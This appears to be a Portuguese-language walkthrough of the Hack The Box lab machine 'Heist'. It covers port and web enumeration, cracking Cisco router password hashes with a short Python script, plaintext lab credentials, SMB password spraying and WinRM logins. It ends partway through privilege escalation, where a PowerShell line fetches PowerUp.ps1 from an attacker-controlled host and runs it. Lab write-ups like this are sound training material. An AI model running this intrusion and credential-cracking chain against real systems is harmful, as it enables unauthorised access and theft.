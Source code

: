Heist
========================

    sudo nmap_enum heist.htb | tee nmap_output.txt


    
     sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn heist.htb | tee nmap_udp_output.txt

![qownnotes-media-YTznkw](../../../media/qownnotes-media-YTznkw.png)

    sudo nmap -p- -Pn -T5 -n heist.htb | tee nmap_fullportstcp_output.txt

 ![qownnotes-media-ScneAh](../../../media/qownnotes-media-ScneAh.png)


    gobuster dir -u http://heist.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -t 16 -o "tcp_port_protocol_s_ext_gobuster.txt"
 
 ![qownnotes-media-AjcbCK](../../../media/qownnotes-media-AjcbCK.png)

 ![qownnotes-media-svZBzJ](../../../media/qownnotes-media-svZBzJ.png)

## Exploitation


![qownnotes-media-reRwac](../../../media/qownnotes-media-reRwac.png)

![qownnotes-media-URsLtn](../../../media/qownnotes-media-URsLtn.png)

![qownnotes-media-pkhnUg](../../../media/qownnotes-media-pkhnUg.png)


security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

Online cracking

https://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html

Porém eu utilizei esse script aqui:

Nome do script cisco_5_decrypter.py

```
from passlib.hash import md5_crypt
import sys 

def decrypt(password, hash):

    if md5_crypt.verify(password, hash):
        print("Password Found: %s" % password)
    

def help():
    print("Usage: python cisco_5_decrypter.py <wordlist>")

if(sys.argv[1]):
    try:
        f = open(sys.argv[1], "r", encoding="ISO-8859-1")
    except:
        help()

    temp = f.read().splitlines()
    hash = input("Informe o hash de senha a ser decriptado: ")
    for name in temp:
        decrypt(name, hash)
else:
    help()
```

    python cisco_5_decrypter.py /usr/share/wordlists/rockyou.txt


Credenciais

stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d


Aqui já obtivemos um usuário válido no serviço SMB. Fizemos novas enumerações


    crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt

![qownnotes-media-KxpgcL](../../../media/qownnotes-media-KxpgcL.png)

![qownnotes-media-zFFSCY](../../../media/qownnotes-media-zFFSCY.png)

    evil-winrm -i 10.10.10.149 -u hazard -p stealth1agent
    rpcclient --user hazard%stealth1agent --command whoami;ipconfig 10.10.10.149
    ## Esse cara de cima não funciona
    ## Esse abaixo funciona:
    rpcclient --user hazard%stealth1agent --command 'enumdomusers' 10.10.10.149
    rpcclient --user hazard%stealth1agent --command 'srvinfo' 10.10.10.149
    smbclient -U hazard -L //10.10.10.149
    smbclient -U hazard //10.10.10.149/IPC$

![qownnotes-media-TNooWt](../../../media/qownnotes-media-TNooWt.png)

Nenhuma com sucesso, porém, teve um comando que funcionou lindo para uma nova enumeração

    enum4linux -a -A -u hazard -p stealth1agent 10.10.10.149  

![qownnotes-media-lZxTJq](../../../media/qownnotes-media-lZxTJq.png)

Adicionei esses novos usuários na lista users.txt e rodei novamente o crackmapexec

    crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt --continue

![qownnotes-media-shsqlB](../../../media/qownnotes-media-shsqlB.png)

    evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
 

![qownnotes-media-SRAtHf](../../../media/qownnotes-media-SRAtHf.png)

    type ../desktop/user.txt

## PrivEsc

Primeiro eu adicionei o usuário Administrator na user list:

    whoami /all
    (new-object net.webclient).downloadfile('http://<hostname>/PowerUp.ps1', 'c:\temp\pu.ps1')
    . ./pu.ps1
    invoke-allchecks
    systeminfo > si.txt
    crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt --continue
    
    gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
    
    